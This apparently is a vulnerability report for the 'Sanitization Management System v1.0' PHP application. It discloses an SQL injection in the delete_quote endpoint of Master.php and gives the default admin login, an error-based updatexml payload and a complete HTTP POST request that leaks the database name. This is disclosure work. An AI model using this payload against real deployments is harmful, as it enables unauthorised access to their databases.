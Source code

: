 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Hujozay

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/classes/Master.php?f=delete_quote

Vulnerability location: /php-sms/classes/Master.php?f=delete_quote, id

dbname =sms_db,length=6

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /php-sms/classes/Master.php?f=delete_quote HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/php-sms/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/195979763-d028405f-af5b-4b3a-bd0b-1ee4d7184060.png)
